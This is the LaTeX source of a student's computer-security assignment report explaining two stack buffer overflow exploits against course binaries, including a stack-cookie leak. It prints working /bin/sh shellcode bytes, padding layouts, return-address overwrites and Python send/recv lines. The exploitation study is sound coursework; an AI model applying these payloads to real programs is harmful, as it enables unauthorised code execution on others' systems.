\documentclass[a4paper]{article}
\usepackage[utf8]{inputenc}
\usepackage{amsmath}
\usepackage{amssymb}
\usepackage{caption}
\usepackage{mathtools}
\usepackage{amsfonts}
\usepackage{lastpage}
\usepackage{tikz}
\usepackage{float}
\usepackage{textcomp}
\usetikzlibrary{patterns}
\usepackage{pdfpages}
\usepackage{gauss}
\usepackage{fancyvrb}
\usepackage[table]{colortbl}
\usepackage{fancyhdr}
\usepackage{graphicx}
\usepackage[margin=2.5 cm]{geometry}

\definecolor{listinggray}{gray}{0.9}
\usepackage{listings}
\lstset{
	language=,
	literate=
		{æ}{{\ae}}1
		{ø}{{\o}}1
		{å}{{\aa}}1
		{Æ}{{\AE}}1
		{Ø}{{\O}}1
		{Å}{{\AA}}1,
	backgroundcolor=\color{listinggray},
	tabsize=3,
	rulecolor=,
	basicstyle=\scriptsize,
	upquote=true,
	aboveskip={0.2\baselineskip},
	columns=fixed,
	showstringspaces=false,
	extendedchars=true,
	breaklines=true,
	prebreak =\raisebox{0ex}[0ex][0ex]{\ensuremath{\hookleftarrow}},
	frame=single,
	showtabs=false,
	showspaces=false,
	showlines=true,
	showstringspaces=false,
	identifierstyle=\ttfamily,
	keywordstyle=\color[rgb]{0,0,1},
	commentstyle=\color[rgb]{0.133,0.545,0.133},
	stringstyle=\color[rgb]{0.627,0.126,0.941},
  moredelim=**[is][\color{blue}]{@}{@},
}

\lstdefinestyle{base}{
  emptylines=1,
  breaklines=true,
  basicstyle=\ttfamily\color{black},
}

\pagestyle{fancy}
\def\checkmark{\tikz\fill[scale=0.4](0,.35) -- (.25,0) -- (1,.7) -- (.25,.15) -- cycle;}
\newcommand*\circled[1]{\tikz[baseline=(char.base)]{
            \node[shape=circle,draw,inner sep=2pt] (char) {#1};}}
\newcommand*\squared[1]{%
  \tikz[baseline=(R.base)]\node[draw,rectangle,inner sep=0.5pt](R) {#1};\!}
\newcommand{\comment}[1]{%
  \text{\phantom{(#1)}} \tag{#1}}
\def\el{[\![}
\def\er{]\!]}
\def\dpip{|\!|}
\def\MeanN{\frac{1}{N}\sum^N_{n=1}}
\cfoot{Page \thepage\ of \pageref{LastPage}}
\DeclareGraphicsExtensions{.pdf,.png,.jpg}
\author{Nikolaj Dybdahl Rathcke (rfq695)}
\title{Proactive Computer Security \\ Assignment 4}
\lhead{PCS}
\rhead{Assignment 4}

\begin{document}
\maketitle

\section{Parrot}
The exploit can be seen by running
\begin{verbatim}
    $ python doit_parrot.py
\end{verbatim}
from the \texttt{src} folder. In the file \texttt{src/parrot.asm} is the commented disassembly. The vulnerable function is in \texttt{parse}. The way we can utilize this is because we can overwrite the return address and not the cookie because we change the offset we write from in the buffer. If we take a look at the stack in Figure \ref{1}:
\begin{figure}[H]
  \centering
  
\includegraphics[scale=0.7]{stack1}
  \caption{The stack in \texttt{parse} in the program \texttt{parrot}.}
  \label{1}
\end{figure}
The problem is we can keep writing to the buffer and overwrite the counter itself (which is the offset from \texttt{\$ebp}-0x38 when we fetch bytes from the arguments). If we look at the string which we give to parrot:
\begin{verbatim}
    exploit  = "\x31\xC0"
    exploit += "\x50"
    exploit += "\x68\x2F\x2F\x73\x68"
    exploit += "\x68\x2F\x62\x69\x6E"
    exploit += "\x89\xE3"
    exploit += "\x50"
    exploit += "\x53"
    exploit += "\x89\xE1"
    exploit += "\x99"
    exploit += "\xB0\x0B"
    exploit += "\xCD\x80"
    exploit += "A" * 16
    exploit += "\x3B"
    exploit += "A" * 19
    exploit += "\xA6\x85\x04\x08"
\end{verbatim}
The first many lines before "A" is the shellcode for getting a shell. These equal $24$ bytes in total. The next $16$ bytes we fill with $A$'s to get to the address where the counter is. We can now overwrite this with $0x3c$, which will mean we write to the return address on the next iteration of the loop. We overwrite this with the address on the return call from \texttt{main} (the $19$ $A$'s are because it fetches from our argument with the same offset). \\
Now, we have not overwritten the cookie, so we survive the check to see if we had overwritten it. When we hit the return call in \texttt{parse}, we actually return from \texttt{main}. Since we skipped the \texttt{leave} call, the program simply runs the shellcode as nothing has been "cleaned" up. This is the shellcode we wrote to get a shell!

\section{Cookiepirate}
To see the exploit, run
\begin{verbatim}
    $ python doit_cookiepirate.py
\end{verbatim}
from the \texttt{src} folder. The commented disassembly can be found in \texttt{src/cookiepirate.asm}. This time the vulnerability is through \texttt{readline} (though we overwrite the return address in \texttt{main}). We are able to leak the cookie the first time we can give input and then use it the second time, where we use the same trick as before to open a shell. The stack frame in \texttt{readline} looks like it is seen here in Figure \ref{2}:
\begin{figure}[H]
  \centering
  \includegraphics[scale=0.7]{stack2}
  \caption{The stack in \texttt{readline} in the program \texttt{cookieparrot}.}
  \label{2}
\end{figure}
This doesn't really say anything. This is because the stack for \texttt{main} is a little more interesting. Our input begins ends at \texttt{\$ebp}-0x84 and we see that the cookie is stored in \texttt{\$ebp}-0x4 (this is the \texttt{\$ebp} in \texttt{main} and we make use of \texttt{strlen}). Writing "A" $129$ times will overwrite the \texttt{NULL} byte in the cookie and leak the cookie itself. The reason the cookie is leaked is because it counts bytes until it gets to a \texttt{NULL} byte. This means that it actually says that we gave $132$ bytes (it hits a \texttt{NULL} byte between the cookie and the return address). So when we get our own provided string back in \texttt{stdout}, we get an extra $3$ bytes - the cookie. The received line is a little longer, but the cookie is found from $136$ to $139$. All this is achieved with this python code:
\begin{verbatim}
    p.sendline("A" * 129)
    res = p.recv()
    print res
    cookie = res[136:139]
\end{verbatim}
After the \texttt{readline} returns, we can see that it writes to a global buffer located at 0x80487f0. Now, with the cookie, all we need to do is conjure up the correct line to send next time. It turns out that the following does the trick:
\begin{verbatim}
    p.sendline("\x31\xC0\x50\x68\x2F\x2F\x73\x68\x68\x2F\x62\x69\x6E\x89\xE3
                \x50\x53\x89\xE1\x99\xB0\x0B\xCD\x80" + "A" * 104 + "\x00" +
                cookie + "\x00" * 4 + "\x68\x9a\x04\x08")
\end{verbatim}
What does it do though? The first $24$ bytes is to spawn a shell like before. The next $104$ A's are just to fill the buffer that has size $128$. The next four bytes is the \texttt{NULL} byte from the cookie that we had overwritten along with the cookie itself, so we haven't changed it. We fill a little more (to get to \texttt{\$ebpp}+0x4 and then finally we write the return address in \texttt{main}. In this case, the return address is the address to the global buffer plus $12$. This is because \texttt{sprintf} writes "His name is " before our input. This is exactly 12 bytes and with a little math in hex we get $08049a5c+c=08049a68$. \\
And just like that, when \texttt{main} returns, it returns to our shell spawning code!

\end{document}
